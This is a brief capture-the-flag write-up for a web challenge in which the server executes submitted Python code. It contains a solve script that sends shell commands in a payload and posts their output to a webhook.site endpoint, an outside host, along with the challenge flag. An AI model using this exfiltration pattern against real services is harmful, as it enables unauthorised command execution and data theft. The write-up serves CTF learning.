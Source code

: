```yaml
---
ai_date: 2025-04-27 05:18:20
ai_summary: "Easiest ever RCE: Unrestricted code execution via input payload"
ai_tags:
  - rce
  - cmd-exec
  - python
created: 2024-07-19T16:06
points: 100
solves: 247
updated: 2025-07-14T09:46
---
```


We are sending code to the server... and the server is running it.

Easiest ever RCE?

## solve script

```python
import requests

while True:
    payload=f"""
from urllib.request import urlopen, Request
import os
httprequest = Request('	https://webhook.site/',data=os.popen('{input("$ ").strip()}').read().encode(),method='POST')
urlopen(httprequest)""".strip()
    requests.post("http://p2c.chal.imaginaryctf.org/", data={"code": payload})
    
# $ ls
# $ cat flag.txt
```

```flag
ictf{d1_color_picker_fr_2ce0dd3d}
```